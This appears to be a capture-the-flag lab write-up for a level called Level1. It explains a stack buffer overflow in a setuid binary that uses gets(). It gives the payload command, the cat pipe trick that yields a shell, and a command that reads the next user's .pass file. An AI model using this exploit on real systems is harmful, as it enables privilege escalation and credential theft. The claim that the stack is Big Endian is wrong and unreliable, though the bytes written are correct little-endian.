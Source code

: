 # Level1

## Solution
 * There is one file in our home, ```level1```, belonging to ```level2``` user, with suid.
 * Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

 * We run the program with gdb and we observe that:
	* `main()` makes use of `gets()` with an on stack array of size 0x40
	* There is an unused function nammed `run` at `0x08048444` which executes `system("/bin/sh")`

 * We have the appropriate setup for a Buffer-Overflow attack:
    * We want to modify the `POP EIP` instruction (or equivalently `RET` instruction).
		* It normally allows to continue the execution of the parent function
		* Here we instead want to execute the `run()` function
	* When `gets()` is called we want to write past through the buffer, here is the stack layout:
		* [gets arg :	64 octets] -> We can write any value here
		* [Allignement: 8  octets]
		* [EBP:			4  octecs] -> old EBP
		* [EIP:			4  octecs] -> We want to change this value so it points to `run()`, it needs to be `0x08048444`

 * We now have to put all this theory in practice, keeping in mind the stack uses Big Endian

 1. Lets prepare our string for the Buffer-Overflow attack:
 ```sh
python -c "print('x' * 76 + '44840408'.decode('hex'))" > /var/crash/lvl1
 ```
 The size is 76 because => 64 (buffer to gets) + 4 (EBP) + 8 (Allignemnet)

 2. Now we want to use the content of lvl1 as stdin for gets,
 and then manually get access to stdin once `system("/bin/sh")` is executed.
 For this we can use cat, with `-` as a second argument, so once the file has been read,
 cat will transmit stdin :
 ```sh
 cat /var/crash/lvl1 - | ./level1
 ```

 3. We now are in the shell session, and we can simply cat the content `.pass` with:
 ```
 cat /home/user/level2/.pass
 ```

